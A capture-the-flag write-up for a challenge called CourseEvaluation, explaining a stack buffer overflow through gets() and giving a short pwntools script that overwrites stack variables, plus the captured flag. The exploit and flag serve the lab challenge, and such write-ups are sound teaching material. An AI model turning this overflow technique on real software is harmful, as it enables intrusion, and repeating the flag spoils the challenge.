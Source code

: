 # CourseEvaluation

### 📍 Description

Give us a good feedback and we might give you the flag!

### 📄 Rules
You cannot patch this binary.
The challenge MUST BE SOLVED by providing an appropriate input.
Solutions that jump directly to the print flag function WILL NOT BE CONSIDERED.
Do not modify the flag.txt file.

## 🔑 Solution

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 50 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *  # type: ignore

context.binary = "./courseEval"
p = process()
p.sendline(b"A" * 56 + b"UniPD_01" + b"CPP-" + b"PWN-" + b"Pier")

log.success(p.recvline_regex(rb"SPRITZ{.*}").decode("ascii"))

```

### 🚩 Flag

```plain
SPRITZ{CPP_PWNs_Everything_173453}
```
